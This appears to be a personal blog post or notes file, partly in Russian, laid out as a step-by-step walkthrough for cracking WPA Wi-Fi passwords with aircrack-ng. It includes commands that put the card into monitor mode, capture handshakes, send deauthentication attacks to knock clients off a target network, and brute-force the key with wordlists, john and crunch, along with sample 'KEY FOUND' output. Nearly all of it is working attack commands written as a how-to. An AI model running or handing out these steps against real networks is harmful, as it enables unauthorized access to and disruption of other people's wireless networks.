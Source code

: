 ```yaml
---
layout: post
title:  "aircrack-ng"
date:   2014-02-25 14:14:31 +0400
categories: wifi
tags: wifi
---
```


# aircrack-ng
Step 1: iwconfig
Step 2: airmon-ng check kill
Step 3: airmon-ng start wlan0
airodump-ng wlan0mon
Step 5: airodump-ng -c channel –bssid [bssid of wifi] -w [path to write the data of packets] wlan0mon[interface].
Step 6: aireplay-ng –deauth 11 -a [router bssid] interface

You need to de-authenticate the connected clients to the target WiFi network. Use aireplay-ng –deauth 11 -a [router bssid] interface

In my case the command will be aireplay-ng –deauth 11 -a 00:07:26:47:B0:35 wlan0mon




Step 7: aircrack-ng -b [bssid of router] [path to capture packets] -w [path to word list]

Last step in this Aircrack-ng tutorial: Start Cracking the target Wi-fi you need bssid, path to captured packets and path to wordlist. You will find plenty of wordlists to crack wifi networks online or generate your own Wordlist.

In my case the above command will be aircrack-ng -b 00:07:26:47:B0:35  /root/Desktop/hack’-01.cap -w /root/Desktop/wordlist


[https://geekviews.tech/aircrack-ng-tutorial/](https://geekviews.tech/aircrack-ng-tutorial/)

#Переводим в режим мониторинга
airmon-ng start wlan1



#Собираем в файл psk.file данные рукопожатия конкретной bsid
airodump-ng -c 2 --bssid 00:11:22:33:44:55  -w psk.file wlp1s0


#
john --restore=foo | aircrack-ng -w - -b 00:11:22:33:44:55 WPAcrack.cap


#Тестовый подбор сделал через crunch, задал template 5566@@@@
crunch 8 8 0123456789 -t 5566@@@@ aircrack-ng -w - -b 00:11:22:33:44:55 psk.file 


Получаем
      Aircrack-ng 1.2 beta3 r2393

                   [00:08:11] 548872 keys tested (1425.24 k/s)

                           KEY FOUND! [ 55667788 ]

      Master Key    : 5C 9D 3F B6 24 3B 3E 0F F7 C2 51 27 D4 D3 0E 97 
                       CB F0 4A 28 00 93 4A 8E DD 04 77 A3 A1 7D 15 D5 

      Transient Key : 3A 3E 27 5E 86 C3 01 A8 91 5A 2D 7C 97 71 D2 F8 
                       AA 03 85 99 5C BF A7 32 5B 2F CD 93 C0 5B B5 F6 
                       DB A3 C7 43 62 F4 11 34 C6 DA BA 38 29 72 4D B9 
                       A3 11 47 A6 8F 90 63 46 1B 03 89 72 79 99 21 B3 

      EAPOL HMAC    : 9F B5 F4 B9 3C 8B EA DF A0 3E F4 D4 9D F5 16 62
      

[https://www.shellhacks.com/ru/pause-resume-aircrack-ng/](https://www.shellhacks.com/ru/pause-resume-aircrack-ng/)

Минимальная длина пароля 8


В принципе адекватны
[https://aircrack-ng.org/doku.php?id=tutorial](https://aircrack-ng.org/doku.php?id=tutorial)
[https://aircrack-ng.org/doku.php?id=cracking_wpa](https://aircrack-ng.org/doku.php?id=cracking_wpa)
[http://kushavin.ru/articles/16-samyj-prostoj-sposob-vzlomat-wi-fi-reaver](http://kushavin.ru/articles/16-samyj-prostoj-sposob-vzlomat-wi-fi-reaver)
[https://hackware.ru/?p=2387](https://hackware.ru/?p=2387)
https://линуксблог.рф/vzlom-wi-fi-setej-aircrack-ng-kali-linux/

Джон 
[https://hackware.ru/?p=411](https://hackware.ru/?p=411)


Crunch
[https://kali.tools/?p=720](https://kali.tools/?p=720)










